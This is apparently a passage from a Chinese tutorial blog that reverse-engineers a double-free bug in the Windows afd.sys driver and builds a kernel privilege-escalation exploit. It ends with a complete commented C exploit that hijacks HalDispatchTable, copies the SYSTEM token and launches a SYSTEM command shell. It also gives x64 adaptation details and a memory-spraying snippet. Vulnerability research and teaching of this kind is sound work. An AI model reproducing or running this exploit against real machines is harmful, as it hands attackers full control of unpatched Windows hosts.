DWORD mdlSize = (0x4000 * (targetSize - 0x30) / 8) - 0xFFF - (virtualAddress & 0xFFF);
static DWORD inbuf1[100];
memset(inbuf1, 0, sizeof(inbuf1));
inbuf1[6] = virtualAddress;
inbuf1[7] = mdlSize;
inbuf1[10] = 1;
```  
  
```
tmpbuf + 0x18 = VirtualAddress;  // 对应 inbuf1[6]
tmpbuf + 0x1C = Length;             // 对应 inbuf1[7]
tmpbuf + 0x28 = 0x1;   //最开始是1 经过一个or运算变为了0x11 对应inbuf1[10]
```  
  
  
size为什么是这样计算，目前还不清楚，先记下这些数据，留着备用。  
  
   
  
可以看到poc指定了一个地址 0x13371337 ， 刚好对应mdl中的 StartVA + Offset ， 大小经过计算对应 0x16ecca。  
  
   
  
好的，下面调用了锁定内存的函数，因为这是一个无效内存，则必定会触发异常。  
  
   
  
我们提前来到异常处理函数的位置下断，2C376为try开始的地址，IDA有提示。  
  
  
  
   
  
  
  
进入到这以后，会进行判断v19是否为0，最开始初始化为0了，所以跟着跳转，看到调用 AfdReturnTpInfo，且AfdReturnTpInfo的两个参数分别为 tpinfo flag。  
  
## 7.逆向分析AfdReturnTpInfo  
  
  
首先函数进来以后，把参数 tpinfo给到esi ，之后无条件跳转。  
  
  
  
这部分我没有动态调试，根据我之前留存的数据即可查找到对应的值（还好我有先见之明qaq）。  
  
  
  
这部分主要是判断后释放掉了 unknow中的mdl指针。  
  
  
  
这部分主要是释放了tpinfo，其实也不叫释放，根据前面的相关分析可知，这个函数会把内存块挂入Lookaside的单向链表。  
  
   
  
并且释放的内存块如果没达到Lookaside结构中的深度的限度值，则这个内存块的数据是不会改变的。  
  
   
  
且经过前面的分析，afd使用了刚初始化Lookaside结构，所以第一次申请时链表为空，调用了结构指定的申请内存例程，如果在Lookaside中申请内存的时候，链表不为空，则可以直接申请到被释放的那块内存。  
  
   
  
也就是说，现在要想触发双重释放漏洞，则必须从Lookaside中取出这个块内存再次触发异常，调用AfdReturnTpInfo执行相同的流程来触发Crash。  
  
   
  
好的，接下来分析POC是怎样实现这个过程的。  
  
  
# 0x120C3处理例程分析  
  
  
根据前面的调用堆栈可以看出执行流程，派遣函数第一个调用的函数为AfdTransmitPackets ， 所以IDA 启动！  
  
## 1.逆向分析AfdTransmitPackets  
  
  
AfdTransmitPackets 的参数为 pIrp 与 pIoStackLocation。  
  
  
  
   
  
  
  
   
  
  
  
   
  
这里可以看到POC中的 1 与 0AAAAAAA 已经拷贝过来了。  
```
static DWORD inbuf2[100];
memset(inbuf2, 0, sizeof(inbuf2));
inbuf2[0] = 1;
inbuf2[1] = 0x0AAAAAAA;
 
1: kd> dd ebp-78
902afa74  00000001 0aaaaaaa 00000000 00000000
```  
  
  
  
   
  
接下来调用了AfdTliGetTpInfo ，注意它的参数， ecx = 0x0AAAAAAA 7个A。  
  
   
  
好的，现在已经得到了poc中第二次调用的数据的用处，总结一下poc的工作流程。  
```
InputBufferLength >= 0x10
InputBuffer & 0x3 == 0
InputBuffer < 0x7FFF0000
*(InputBuffer + 0xC) & 0xFFFFFFC8 == 0
*(InputBuffer + 0xC) & 0x30 != 0x30
*InputBuffer != 0
*(InputBuffer + 0x4) != 0
*(InputBuffer + 0x4) <= 0x0AAAAAAA
 
如果InputBuffer满足这些条件则调用
AfdTliGetTpInfo(0x0AAAAAAA)
```  
  
  
接下来再让我们看一下AfdTliGetTpInfo中有什么玄机。  
  
## 2.再次分析AfdTliGetTpInfo  
  
  
注：有一大段没保存 我心态裂了...但还是坚持重新写了。  
  
  
  
这里我们可以看到与第一次调用不同的流程为，这次进入了if中，由于edi是由用户可控参数设置，所以这里会再次申请内存。  
  
   
  
申请的内容为esi个 unknow结构体，大小为0x18，这也印证了前面的判断 unknow结构体大小为0x18。  
  
   
  
这里总申请的内存大小为 0x0AAAAAAA * 0x18 = 0xFFFFFFF0 ， 明显在32位程序中是不可能的，所以这里会触发异常。  
  
   
  
异常流程为图中箭头指向的位置， 可以看到同样的剧情，调用AfdReturnTpInfo。  
  
   
  
注意此时的情况，此时已经执行了ExAllocateFromNPagedLookasideList ， 申请到了tpinfo结构，也就是之前释放的那个。  
  
   
  
为什么这么说呢，因为根据我们之前的分析，第一次申请tpinfo时LookasideList为空，之后释放到Lookaside中，所以第二个申请可以申请到这个同样的内存。  
  
   
  
但是这个内存中的tpinfo->unknow.mdl 的值 还是释放后的值，所以再次进入AfdReturnTpInfo进行同样的数据，同样的流程，会再次释放这个mdl指针，造成 double free。  
  
  
# 漏洞原理总结  
  
  
1.第一次DeviceIoControl， IoControlCode = 0x1207F  
  
   
  
afd.sys 调用AfdTransmitFile，AfdTransmitFile 首先会调用AfdTliGetTpInfo 获得一个TpInfo结构体，然后根据用户的输入，去申请mdl，mdl申请后，由于用户的输入，造成了锁定mdl的时候出现异常，进入AfdReturnToInfo 释放了mdl指针，此时为第一次free。之后又因为LookasideList的相关操作，导致了这块内存可以重复使用，并且里面的数据都没有被改变，所以可以尝试进行第二次free。  
  
   
  
2.第二次DeviceIoControl, IoControlCode = 0x120C3  
  
   
  
afd.sys 调用AfdTransmitPackets，AfdTransmitPackets 内部调用AfdTliGetTpInfo 获得一个TpInfo 结构体，而这块内存正好就是从Lookaside中申请的，之后因为用户控制了 AfdTliGetTpInfo的参数，导致申请过大的内存，使程序进入异常处理流程，调用AfdReturnToInfo ，并且参数正是第一次调用时的 tpinfo，所以流程会跟第一次调用一样，释放mdl，此时为第二次free，也就是著名的double free。  
  
   
  
3.POC中的socket句柄  
  
   
  
根据分析可知，poc工作流程中有很多次对文件对象Fscontext域的判断，分别有 1AFD AFD2 AFD1 ， 这里可以看出，都是跟驱动afd名字相关的值，所以可以推测，poc中使用connect后的socket句柄，不使用符号链接的句柄，正是出于此原因，由此可见外国人对内核的了解是特别深的。  
  
   
  
好的，到此POC的工作流程与漏洞原理分析完毕，接下来思考一下如何把double free转为use after free。  
  
  
# 漏洞利用思路与分析  
##   
## 流程  
  
  
这一段参考了Vsbat的文章，据他文章所述，他也是参考外文的PDF。  
  
   
  
1.调用DeviceIoControl， IoControlCode = 0x1207F, 造成一次MDL free。  
  
   
  
2.创建某个对象，使得这个对象恰好占据刚才被free 掉的空间，至此转化double-free 为use-after-free 问题。  
  
   
  
3.调用DeviceIoControl, IoControlCode =0x120C3，走入重复释放流程，释放掉刚才新申请的对象。  
  
   
  
4.被释放的对象应该被设置为可控数据，也就是伪造一个对象，此时我们并没有释放这个对象，我们可以继续操作这个对象。  
  
   
  
5.尝试调用能够操作此对象的函数，让函数通过操作我们刚刚覆盖的可控数据，实现一个内核内存写操作，这个写操作最理想的就是任意地址写任意内容，这样我们就可以覆写HalDispatchTable 的某个单元为我们ShellCode 的地址，这样就可以劫持一个内核函数调用。  
  
   
  
6.用户层触发刚刚被Hook 的HalDispatchTable 函数，使得内核执行shellcode，进行提权。  
  
## 方法  
  
  
此时就出现了一个问题，我们应该用什么样的对象来覆盖这块内存，这个对象应该有两个要求：  
  
   
  
1.这个对象的大小要等于第一次被释放的内存的大小。  
  
   
  
2.这个对象应该有这样一个操作函数，这个函数能够操作我们的恶意数据，使得我们间接实现任意地址写任意内容。  
  
   
  
对于1来说，大小不是问题，因为第一次申请的mdl的va与length都是我们可以控制的。  
  
   
  
对于2来说，这个对象去哪里找，外文pdf中提到了WorkerFactory。  
  
   
  
此时又出现了问题：  
  
   
  
1.WorkerFactory 对象的大小是多少（NtCreateWorkerFactory）？  
  
   
  
2.如何覆盖掉被释放的数据，根据最开始的蓝屏分析，被释放的地址为非分页地址，而用户层没办法分配非分页地址，所以我们不得不找到一个函数来在内核申请非分页内存并把shllcode copy到这里，去哪找这个函数？（外文pdf中提到了NtQueryEaFile）  
  
   
  
3.如何实现把数据写入任意地址？（外文pdf中提到了NtSetInformationWorkerFactory）  
  
   
  
4.最后我们还需要恢复hook，因为改动内核数据会触发PG，它是延迟触发的，在提权之后应该立即恢复，那么这里又有了一个问题，如何获取原始数据？（外文pdf中提到了NtQueryInformationWorkerFactory）  
  
## 逆向分析NtSetInformationWorkerFactory  
  
  
  
这里可以看到，esi为第二个参数 ， 如果它等于 8 则进行我们想要的跳转。  
  
  
  
这里可以看到， 第四个参数为4的时候，会到下面的try块， 然后再次判断 esi ，ebx ， 都为8 ，继续跳转。  
  
  
  
这里会判断三环地址是否有效，之后把edi赋值为 *arg3 ， 继续往下到了关键部分。  
  
  
  
这里是实现任意地址写任意数据的关键部分，第一个函数调用通过句柄获得对象地址，然后它的操作会造成：  
  
   
  
把*arg3的内容 写入到 *((*(*object+0x10))+0x1C)  
  
   
  
这时候可以考虑，把 *arg3设置为shellcode地址， 另一边设置为 HalDispatchTable 的某个指针。  
```
//最后得到的调用要求
NtSetInformationWorkerFactory(hWorkerFactory, 8, &shellcodeAddr, 4);
```  
  
  
然后就是 覆盖对象数据为我们可控数据的问题。  
  
## 逆向分析NtQueryEaFile  
  
  
我们需要的流程为，申请非分页内存，并且这个内存正好是之前释放的内存，然后再把我们准备的数据拷贝到这块内存。  
  
   
  
刚好，它全部实现了，这个函数很简单，就简单看一下就可以。  
  
  
  
主要就是这两个函数调用，刚好会申请一个非分页内存，并copy参数的内容到这块内存，而Ealist和EalistLength是我们可以控制的参数。  
  
   
  
函数原型如下：  
```
NTSTATUS
NtQueryEaFile (
    __in HANDLE FileHandle,
    __out PIO_STATUS_BLOCK IoStatusBlock,
    __out_bcount(Length) PVOID Buffer,
    __in ULONG Length,
    __in BOOLEAN ReturnSingleEntry,
    __in_bcount_opt(EaListLength) PVOID EaList,
    __in ULONG EaListLength,
    __in_opt PULONG EaIndex,
    __in BOOLEAN RestartScan
    );
```  
  
  
顺便看一下这个函数 ExAllocatePoolWithQuotaTag  
  
  
  
可以看到这个函数内部调用 ExAllocatePoolWithTag ， 但是在申请内存时 ， 对申请大小进行了 + 4 操作。  
  
   
  
也就是说，我们在使用它申请内存时 ， 申请的大小应该 减去4 才可以达到占坑的要求 ， 这个加4应该是添加了tag的大小。  
  
   
  
然后没什么大事，在copy完后会释放掉这块内存，释放会把tag清空，也就是前四个字节，不影响我们。  
  
   
  
接下来需要分析一下我们如何申请对象，我没有找到NtCreateWorkerFactory的定义，只能通过逆向的方式来分析参数了。  
  
## 逆向分析NtCreateWorkerFactory  
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
最后走到这，返回了对象的句柄，好的 ，至此10个参数确定。  
```
NTSTATUS
NtCreateWorkerFactory(&hWorkerFactory,
                       ACCESS_MASK DesiredAccess, //访问权限不用多说
                       ObjectAttributes,    //对象属性不清楚给什么，但是没有判断这个参数的地方，所以给0即可
                       IoCompletionObjectHandle,
                       -1,
                       0,
                       0,
                       0,
                       0,
                       0);
```  
  
  
简单记录一下申请流程：  
  
   
  
NtCreateWorkerFactory -> ObCreateObject -> ObpAllocateObject -> ExAllocatePoolWithTag  
  
   
  
ObCreateObject 从Lookaside List中取出一块内存，body大小为0x78，并捕获创建信息。  
  
   
  
ObpAllocateObject 填充对象的头和对象的创建信息，创建信息大小为0x8或0x10（这里为0x10）。  
  
   
  
ExAllocatePoolWithTag 申请 0xA0的大小，也就是 0x78+0x18+0x10 = 0xA0。  
  
   
  
最后返回到NtCreateWorkerFactory 的对象指针为 0x28的位置， 指向body。  
  
   
  
并且这个符号文件好像是错的，跟函数调用参数信息，调用约定都对不上，很难受。  
  
   
  
到此 申请对象也搞清楚了 下一步读任意地址。  
  
## 逆向分析NtQueryInformationWorkerFactory  
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
  
  
   
  
按照我们的流程往下走，会得到一个任意地址读的操作，之后会把读到的内容返回给用户，返回0x60大小的数据，0x50为读取的数据。  
  
   
  
最后得到的调用为：  
```
NTSTATUS
NtQueryInformationWorkerFactory(hWorkerFactory,
                                7,
                                retArray,
                                0x60,
                                0);
```  
  
  
到此为止 我们应该可以实现EXP的利用了 接下来开始编写EXP并调试。  
  
  
# EXP编写  
##   
## 思路整理  
  
  
1.触发IOCTL 0x1207F，并准备好大小为0xA0的MDL大小。  
  
   
  
2.在释放后的MDL内存，创建WorkerFactory对象，以替换MDL缓冲区。  
  
   
  
3.触发IOCTL 0x120C3以释放WorkerFactory对象。  
  
   
  
4.调用NtQueryEaFile，覆盖对象数据。  
  
   
  
5.获取内核基址，通过未公开函数或者信息泄露。  
  
   
  
6.调用NtQueryInformationWorkerFactory 获取NtQueryIntervalProfile原指针。  
  
   
  
6.调用NtSetInformationWorkerFactory 覆盖 NtQueryIntervalProfile指针。  
  
   
  
7.用户层调用 NtQueryIntervalProfile执行shellcode。  
  
   
  
8.提权并恢复Hook。  
  
   
  
目前的步骤值得注意的是，在释放掉对象后，我们覆盖此对象数据，大小为0xA0，则必定会覆盖掉创建信息与对象头，所以这部分需要构造一个正常的头部。  
  
## 蓝屏  
```
04 8e225a74 8484610f 00000000 bad0b124 00000000 nt!KiTrap0E+0xdc
05 8e225b38 84874ba9 adc23b80 adca4278 88bd5d40 nt!ObpCloseHandleTableEntry+0x28
06 8e225b68 8485cf86 adc23b80 8e225b7c 8bc01270 nt!ExSweepHandleTable+0x5f
07 8e225b88 8486a666 27c0db2c 00000000 86caad48 nt!ObKillProcess+0x54
08 8e225bfc 8485cbb9 00000000 ffffffff 001efda4 nt!PspExitThread+0x5db
```  
  
  
在提权后，清理句柄蓝屏，所以现在有两个办法。  
  
   
  
1.让自己的进程隐藏起来，不结束。  
  
   
  
2.shellcode中我们拥有0环权限，修改自己进程句柄表信息即可。  
  
   
  
逆向分析一下ExSweepHandleTable，发现当进程的ObjectTable为0则不清理句柄，但是创建cmd进程时，需要用到句柄表（蓝）。  
  
   
  
经过继续深入分析，确定了清理句柄的流程，已经在EXP中加上了，方法有很多，为了稳定，把伪造对象的句柄对应的object地址清0，即可绕过清理对象的步骤（Vsbat大佬的文章中分析结果并不对，但是因为遇到NULL就会结束清理句柄，所以也可以绕过）。  
  
   
  
ObjectTbale + Handle*2位置的内容置为0即可。  
  
## C的EXP（带注释）  
```
#include <stdio.h>
#include <windows.h>
 
#pragma comment(lib,"Ws2_32.lib")
 
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define STATUS_INFO_LENGTH_MISMATCH  ((NTSTATUS)0xC0000004L)
 
typedef NTSTATUS(__stdcall* __NtCreateWorkerFactory)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T);
typedef NTSTATUS(__stdcall* __NtQueryEaFile)(HANDLE, PVOID, PVOID, ULONG, BOOLEAN, PVOID, ULONG, PULONG, BOOLEAN);
typedef NTSTATUS(__stdcall* __NtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);
typedef NTSTATUS(__stdcall* __NtSetInformationWorkerFactory)(HANDLE, ULONG, PVOID, ULONG);
typedef NTSTATUS(__stdcall* __NtQueryIntervalProfile)(DWORD, PULONG);
typedef NTSTATUS(__stdcall* __PsLookupProcessByProcessId)(DWORD, LPVOID*);
typedef NTSTATUS(__stdcall* __NtQueryInformationWorkerFactory)(HANDLE, LONG, PVOID, ULONG, PULONG);
 
 
typedef struct _SYSTEM_MODULE_INFORMATION_ENTRY {
    HANDLE Section;
    PVOID  MappedBase;
    PVOID  Base;
    ULONG  Size;
    ULONG  Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    CHAR   ImageName[256];
} SYSTEM_MODULE_INFORMATION_ENTRY, * PSYSTEM_MODULE_INFORMATION_ENTRY;
 
typedef struct _SYSTEM_MODULE_INFORMATION {
    ULONG Count;
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;
 
typedef struct _IO_STATUS_BLOCK {
    union {
        NTSTATUS Status;
        PVOID    Pointer;
    };
    ULONG_PTR Information;
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;
 
 
__NtCreateWorkerFactory                MyNtCreateWorkerFactory = NULL;
__NtQueryEaFile                        MyNtQueryEaFile = NULL;
__NtQuerySystemInformation            MyNtQuerySystemInformation = NULL;
__NtSetInformationWorkerFactory        MyNtSetInformationWorkerFactory = NULL;
__NtQueryIntervalProfile            MyNtQueryIntervalProfile = NULL;
__PsLookupProcessByProcessId        MyPsLookupProcessByProcessId = NULL;
__NtQueryInformationWorkerFactory    MyNtQueryInformationWorkerFactory = NULL;
 
DWORD MyHalDispatchTable = NULL;
DWORD oldHaliQuerySystemInformation = NULL;
HANDLE hWorkerFactory = NULL;
typedef DWORD PEPROCESS;
 
 
DWORD GetFuncAddr()
{
    //获取ntdll中的导出函数
    HMODULE hNtdll;
    hNtdll = GetModuleHandle("ntdll.dll");
    if (hNtdll == NULL)
    {
        printf("GetModuleHandle Failed %p\n", GetLastError());
        return 0;
    }
 
    MyNtCreateWorkerFactory = GetProcAddress(hNtdll, "NtCreateWorkerFactory");
    MyNtQueryEaFile = GetProcAddress(hNtdll, "NtQueryEaFile");
    MyNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    MyNtSetInformationWorkerFactory = GetProcAddress(hNtdll, "NtSetInformationWorkerFactory");
    MyNtQueryIntervalProfile = GetProcAddress(hNtdll, "NtQueryIntervalProfile");
    MyNtQueryInformationWorkerFactory = GetProcAddress(hNtdll, "ZwQueryInformationWorkerFactory");
 
    if (!MyNtCreateWorkerFactory || !MyNtQueryEaFile || !MyNtQuerySystemInformation || !MyNtSetInformationWorkerFactory ||
        !MyNtQueryIntervalProfile || !MyNtQueryInformationWorkerFactory)
    {
        printf("GetProcAddress Failed %p\n", GetLastError());
        return 0;
    }
 
    //获取nt基址PsLookupProcessByProcessId与HalDispatchTable地址
    NTSTATUS Status;
    DWORD cbNeed;
 
    Status = MyNtQuerySystemInformation(11, NULL, 0, &cbNeed);
    if (Status != STATUS_INFO_LENGTH_MISMATCH)
    {
        printf("MyNtQuerySystemInformation Failed %p\n", Status);
        return 0;
    }
    PSYSTEM_MODULE_INFORMATION Info = (PSYSTEM_MODULE_INFORMATION)malloc(cbNeed);
 
    Status = MyNtQuerySystemInformation(11, Info, cbNeed, &cbNeed);
    if (!NT_SUCCESS(Status))
    {
        printf("MyNtQuerySystemInformation Failed %p\n", Status);
        return 0;
    }
 
    DWORD Ntbase = Info->Module[0].Base;
    HMODULE Mynt = LoadLibrary(Info->Module[0].ImageName + Info->Module[0].OffsetToFileName);
    if (Mynt == NULL)
    {
        printf("LoadLibrary Nt Failed\n" );
        return 0;
    }
 
    MyHalDispatchTable = (ULONG)GetProcAddress(Mynt, "HalDispatchTable") - (ULONG)Mynt + Ntbase;
    if (MyHalDispatchTable == NULL)
    {
        printf("Get HalDispatchTable Failed %p\n", GetLastError());
        return 0;
    }
 
    MyPsLookupProcessByProcessId = (ULONG)GetProcAddress(Mynt, "PsLookupProcessByProcessId") - (ULONG)Mynt + Ntbase;
    if (MyPsLookupProcessByProcessId == NULL)
    {
        printf("Get PsLookupProcessByProcessId  Failed %p\n", GetLastError());
        return 0;
    }
 
    return 1;
}
 
 
NTSTATUS __stdcall Shellcode(int a,int b,int c,int d)
{
    //获取自己和系统进程的EPROCESS
    PEPROCESS pCur, pSys;
    DWORD ObjTable;
    MyPsLookupProcessByProcessId(GetCurrentProcessId(), &pCur);
    MyPsLookupProcessByProcessId(4, &pSys);
 
    //提权 0xF8为token位置
    *(DWORD*)(pCur + 0xF8) = *(DWORD*)(pSys + 0xF8);
 
    //绕过清理句柄
    ObjTable = *(DWORD*)(pCur + 0xF4);
    *(DWORD*)(ObjTable + 0x30) -= 1;
    ObjTable = *(DWORD*)ObjTable;
    *(DWORD*)(ObjTable + ((DWORD)hWorkerFactory * 2)) = 0;
 
    //恢复Hook
    *(DWORD*)(MyHalDispatchTable + 4) = oldHaliQuerySystemInformation;
 
    return 0;
}
 
int main(int argc, char** argv)
{
    //获取需要的所有地址
    if (!GetFuncAddr())
    {
        printf("GetFuncAddr Failed \n");
        return 0;
    }
 
    DWORD mdlSize = 0xA0;
    DWORD virtualAddress = 0x710DDDD;
    //MDL的大小 头部加物理页编号 如果你的地址或长度低12不为0  则多申请一个页
    //这里明显地址低12位不为0  所以-1 正好0xA0的大小
    DWORD length = ((mdlSize - 0x1C) / 4 - (virtualAddress % 4 ? 1 : 0)) * 0x1000;
 
 
    //这里初始化第一次IO控制的inputbuf  以达到第一次释放的目标
    static BYTE inbuf1[0x30];
    memset(inbuf1, 0, sizeof(inbuf1));
    *(ULONG*)(inbuf1 + 0x18) = virtualAddress;
    *(ULONG*)(inbuf1 + 0x1C) = length;
    *(ULONG*)(inbuf1 + 0x28) = 1;
 
    //这里初始化第二次IO控制的inputbuf  以到达第二次释放的目标
    static BYTE inbuf2[0x10];
    memset(inbuf2, 0, sizeof(inbuf2));
    *(ULONG*)inbuf2 = 1;
    *(ULONG*)(inbuf2 + 4) = 0x0AAAAAAA;
 
    WSADATA         WSAData;
    SOCKET         s;
    SOCKADDR_IN  sa;
    int             ierr;
 
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
 
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    //创建会调用到afd.sys漏洞函数的socket句柄
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));
 
    // 释放第一次申请的mdl结构，大小为0xA0
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, NULL, 0, NULL, NULL);
 
    // 创建一个 WorkerFactory Object 来占坑释放的 mdl 0xA0 的空间
    HANDLE hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4);
 
    //创建WorkerFactory对象
    DWORD Status = MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0);
 
    // 第二次释放  释放掉的内存是 WorkerFactory Object
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x10, NULL, 0, NULL, NULL);
 
    //开始操作WorkerFactory Object
    BYTE WorkerFactory[0xA0] = { 0 };
 
    //申请的时候把对象前0x28字节复制过来 Handle置为NULL
    BYTE ObjHead[0x28] = {        0x00, 0x00, 0x00, 0x00, 0xA8, 0x00, 0x00, 0x00,   
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
 
                                0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
                                0x00, 0x00, 0x00, 0x00, 0x16, 0x00, 0x08, 0x00,
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 }; 
    memcpy(WorkerFactory, ObjHead, 0x28);
 
    //任意读的地址  *(*(obj+0x64)+0xB4) = MyHalDispatchTable + 4
    PBYTE pObj = WorkerFactory + 0x28;
    *(DWORD*)(pObj + 0x64) = MyHalDispatchTable - 0xB4 + 4;
 
    //任意写   把 *arg3 的内容 写入到  *( *(*object+0x10)+0x1C )
    //*(*object+0x10)+0x1C = MyHalDispatchTable + 4
    //因为 *object 所以没办法在本对象内构造数据 
    //所以需要另一个内存来构造数据
    BYTE y[0x14] = { 0 };
    *(DWORD*)pObj = (DWORD)y;
    PBYTE py = y;
    //现在有一个内存y    *(y + 0x10) + 0x1C = MyHalDispatchTable + 4
    //所以 *(y+0x10) = MyHalDispatchTable + 4 - 0x1C  即可
    *(DWORD*)(py + 0x10) = MyHalDispatchTable + 4 - 0x1C;
 
    //现在把伪造的对象拷贝到释放掉的内存
    IO_STATUS_BLOCK IoStatus;
    MyNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, 0, 0, 0, WorkerFactory, 0xA0 - 0x4, 0, 0);
 
    //读 oldHaliQuerySystemInformation
    //内核会返回0x60自己的数据  需要的数据被放在  kernelRetMem+0x50
    BYTE kernelRetMem[0x60] = { 0 };
    MyNtQueryInformationWorkerFactory(hWorkerFactory, 7, kernelRetMem, 0x60, NULL);
    oldHaliQuerySystemInformation = *(DWORD*)(kernelRetMem + 0x50);
 
    //写shellcode地址到HalDispatchTable + 4
    DWORD scAddr = (DWORD)Shellcode;
    MyNtSetInformationWorkerFactory(hWorkerFactory, 8, &scAddr, 4);
 
    //调用shellcode
    DWORD Interval;
    MyNtQueryIntervalProfile(2, &Interval);
 
    //提权后创建一个system权限的cmd
    ShellExecuteA(NULL, "open", "cmd.exe", NULL, NULL, SW_SHOW);
 
    system("pause");
    return 0;
}
```  
#   
#   
#   
# x64的思考  
##   
## 问题  
  
  
1.WorkerFactory的大小问题，MDL的大小问题  
  
   
  
2.因为对象与结构体大小导致的第一次释放占坑问题  
  
   
  
3.内存大小问题导致的第二次占坑成功率问题  
  
   
  
4.任意地址读写的偏移问题  
  
   
  
5.64位中清理句柄的问题  
##   
## 解决  
  
  
1.WorkerFactory在64位中大小为0x100，可以通过前面的分析步骤来分析，我在外文PDF中看到他说了是0x100（经过一番跟踪，确实是0x100）。  
  
   
  
MDL结构的大小，64位中头部大小为0x30，PFN数组大小还是按照之前分析的结果，只不过是一个元素占8字节。  
  
   
  
2.既然知道了需要构造的mdl结构的大小，那么按照之前的流程构造即可正常占坑。  
  
   
  
3.64位系统中内存过大，导致占坑成功率低，之前分析的过程中发现，AFD貌似使用自己初始化的Lookaside List，所以双重释放应该是没问题的，问题是释放到pool中后，能否在NtQueryEaFile中成功占坑这个内存（外文PDF中使用gdi32.CreateRoundRectRgn消耗内存，py版的代码如下）。  
```
rgnarr = []
nBottomRect = 0x2aaaaaa
while(1):
    hrgn = windll.gdi32.CreateRoundRectRgn(0,0,1,nBottomRect,1,1)
    if hrgn == 0:
        break
    rgnarr.append(hrgn)
```  
  
  
这是老外使用的py poc中的代码，我不知道这个对象的大小是如何计算的，0x2aaaaaa应该是老外计算后觉得比较合适的数字。  
  
   
  
4.经过前面32位的分析，我们知道，如果对象大小与结构大小改变了，那么它的各种寻址偏移也将会改变，但是它的功能不会变化，只需要重新分析对应的64位内核的函数得到任意读写的构造公式。  
  
   
  
5.最后提权结束，需要清理句柄，除了地址变为8字节，别的应该是一样的。  
  
   
  
6.外文pdf中应该是以win8 wow64进程来进行描述的，他提到了绕过ASLR SMEP 与 重定向问题 ，由于我们现在有未公开函数来获取基址，所以不用考虑ASLR（但是也是值得研究的，三环也常用信息泄露来获取基址），SMEP的话需要构造ROP，在win8中只需要构造一次（具体可参考外文PDF）。  
  
## 64位的逆向分析  
  
  
**对照32位的分析位置，快速定位即可**  
  
   
  
1.第一个inputbuf构造，构造要求跟之前一样，大小变为0x40，同时分析过程要注意大小。  
```
buf1length >= 0x40;
buf1[0x20] = VA;     //qword值
buf1[0x28] = length; //dword值
buf1[0x3C] = 1;         //dword值
```  
  
  
2.第二个inputbuf构造。  
```
buf2length >= 0x18;
buf2[0x0] = 1;            //dword值
buf2[0x8] <= 0xAAAAAAA ;//dword值
```  
  
  
3.覆盖第二次释放内存的构造，跟之前不一样的是，没有+4的操作了，所以可以直接使用对象大小，无需-4。  
  
   
  
4.任意读的构造，*(*(object+0x80)+0x180) , 返回大小0x78 ，别的跟之前一样。  
  
   
  
5.任意写的构造，*(*(*object + 0x18) + 0x2C) = *(DWORD*)arg3 ，别的跟之前一样，这里要写两次，才能写入8字节的地址。  
  
   
  
这里值得注意的是，64位的那个set函数，加了一个switch case ，我们需要的写操作在 case 8 ，另外由于只能写入4字节，但是*object与*arg3都是我们可控的，所以第二次写的时候，调整*object中的数据与*arg3的数据即可。  
  
   
  
6.对象头大小为0x30，前面的创建信息大小为0x20，body大小为0xB0 ，刚好0x100 ，没问题，数据我已经拷出来了。  
  
   
  
我大概分析了一下，除了对象头的引用计数和类型，别的貌似都没用到，最后也不会释放它，所以给几个重要的值就行。  
```
pool头为0x10
创建信息为0x20
对象头为0x30
body为0xB0
 
body前面的数据，挑重要的拷贝到对象头中
 00 00 00 00 08 01 00 00-00 00 00 00 00 00 00 00 
 00 00 00 00 00 00 00 00-08 31 92 31 80 fa ff ff 
 01 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 
 00 00 00 00 00 00 00 00-16 00 08 01 00 00 00 00 
 e0 51 83 32 80 fa ff ff-00 00 00 00 00 00 00 00
```  
  
  
7.到此为止，我们的64位EXP应该可以编写了，最后句柄清理的步骤，对应的数据改为64位的相关结构即可。  
  
   
  
8.64位的POC，只需要参考1与2即可，别的都一样。  
  
   
  
9.EXP的编写，只需把重要部分改为上述分析中的内容即可。  
  
  
# 提权成功  
  
  
x64提权成功且不蓝 perfect！  
  
  
#   
#   
# 补丁分析  
  
  
我这没有打过补丁的系统，就不折腾了，微软修复方案是在 AfdReturnTpinfo中 第一次释放mdl后，把那个结构体的 index清0，这样就不会调用第二次free了（我称它为index，资料中称它为TpInfoElementCount，可能是因为它曾与那个AfdTpInfoElementCount全局变量比较后进行申请内存的动作吧）。  
  
   
  
吐槽：补丁分析主要还是用来研究Nday之类的东西，查看修复方案，逆向分析它之前可能存在什么漏洞，这才是主要的。不然我看它怎么修复的有什么意义。  
  
  
# 结语  
  
  
1.对于新手来说，这个漏洞还是很值得去学习一下的。  
  
   
  
2.相信终有一天，外国人也需要研究咱们中国的文章与资料（逆向人加油）。  
  
   
  
3.不知不觉一万多字了，希望可以真正帮助到新手，二进制漏洞的世界，对新手确实太不友好了。  
  
   
  
4.EXP_x64在附件中，需要测试可自行下载。  
#   
#   
# 参考资料  
  
  
1.Vsbat大佬的文章（  
https://bbs.pediy.com/thread-194457.htm  
）  
  
   
  
2.外文PDF  
  
  
  
  
  
  
  
